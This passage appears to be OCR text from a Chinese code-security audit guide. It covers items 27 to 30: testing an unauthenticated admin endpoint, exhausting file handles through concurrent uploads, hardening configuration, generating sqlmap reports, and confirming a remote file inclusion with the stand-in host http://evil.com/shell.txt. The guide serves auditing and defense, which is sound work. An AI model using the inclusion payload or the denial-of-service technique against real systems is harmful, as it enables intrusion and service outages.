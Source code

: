 直接访问/admin/user/list  
，若返回数据则存在未授权。**修复**  
：路由全局权限校验。  
  
1. 27. **资源未释放漏洞利用**  
  
高并发请求文件上传接口，触发Too many open files  
错误，导致服务拒绝。  
  
1. 28. **安全配置缺陷扫描**  
  
1. • 关闭display_errors  
防止路径泄露  
  
1. • 禁用PUT  
、DELETE  
方法减少攻击面  
  
1. 29. **自动化报告生成**  
  
集成SQLMap、Bandit生成HTML报告：sqlmap -u target.com --output-dir=report --report=audit.html  
。  
  
1. 30. **动静结合审计验证**  
  
静态扫描发现include($_GET['page'])  
后，动态提交page=http://evil.com/shell.txt  
验证远程包含。  
  
技术需要敬畏，漏洞需要责任。  
  
   
  
  
